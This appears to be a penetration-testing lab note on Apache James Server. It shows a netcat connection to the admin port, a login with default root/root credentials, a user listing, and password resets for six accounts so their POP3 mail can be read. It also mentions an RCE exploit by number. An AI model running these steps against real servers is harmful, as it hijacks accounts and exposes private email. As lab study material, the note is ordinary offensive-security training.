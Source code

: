 ```yaml
---
category: Uncategorized
tags: []
---
```

#### 35513 RCE
exploit 35513.py

#### Manual
```bash - kali
nc -nvC $TARGET 4555
```

[https://james.apache.org/server/archive/configuration_v2_0.html](https://james.apache.org/server/archive/configuration_v2_0.html)

```bash - kali
root
```

```bash - kali
root
```
   
```bash - kali
HELP
```

```bash - kali
listusers
```

We do not have the ability to view user credentials. However can do the next best thing: we can change them with the setpassword command. Once we do so, we should be able to log onto the POP3 server and see if there are any emails available. We'll go ahead and change all the user credentials and then log on one by one.

```bash - kali
setpassword alice abcd
```

```bash - kali
setpassword bob abcd
```

```bash - kali
setpassword carlos abcd
```

```bash - kali
setpassword david abcd
```

```bash - kali
setpassword earl abcd
```

```bash - kali
setpassword frank abcd
```

```bash - kali
quit
```

While we could login one-by-one with our newly controlled credentials, we might as well use a little bash in order to speed up the process.

![[Port 110 - POP3#POP3 sh]]

